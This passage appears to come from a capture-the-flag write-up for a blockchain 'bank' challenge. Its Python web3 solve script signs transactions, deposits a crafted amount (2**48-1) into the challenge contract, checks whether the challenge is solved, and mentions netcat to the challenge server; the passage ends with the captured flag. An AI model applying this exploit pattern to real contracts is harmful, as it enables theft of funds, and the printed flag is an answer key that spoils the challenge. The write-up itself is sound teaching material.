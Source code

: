 ```python
})
signed_transaction = w3.eth.account.sign_transaction(transaction, PRIVATE_KEY)
transaction_hash = w3.eth.send_raw_transaction(signed_transaction.rawTransaction)
transaction_receipt = w3.eth.wait_for_transaction_receipt(transaction_hash)
print(f"Transaction hash: {transaction_hash.hex()}")


# deposit 2**48-1 eth so you can get the flag
transaction = contract.functions.deposit(2**48 - 1).build_transaction({
    'from': PLAYER_ADDRESS,
    'nonce': w3.eth.get_transaction_count(PLAYER_ADDRESS),
    'value': 2**48 - 1,
})
signed_transaction = w3.eth.account.sign_transaction(transaction, PRIVATE_KEY)
transaction_hash = w3.eth.send_raw_transaction(signed_transaction.rawTransaction)
transaction_receipt = w3.eth.wait_for_transaction_receipt(transaction_hash)
print(f"Transaction hash: {transaction_hash.hex()}")


# ensure the challenge can be solved
print('Challenge solved?',contract.functions.isChallSolved().call())


# if it's solved, interact with nc 34.30.117.150 40001 again and put in your secret to get the flag
```

<img src="/static/ictf-bank/solve.png" width="860px">

**Flag** - `ictf{r0bb1ng_7h3_b4nk_8f4a3d2b}`
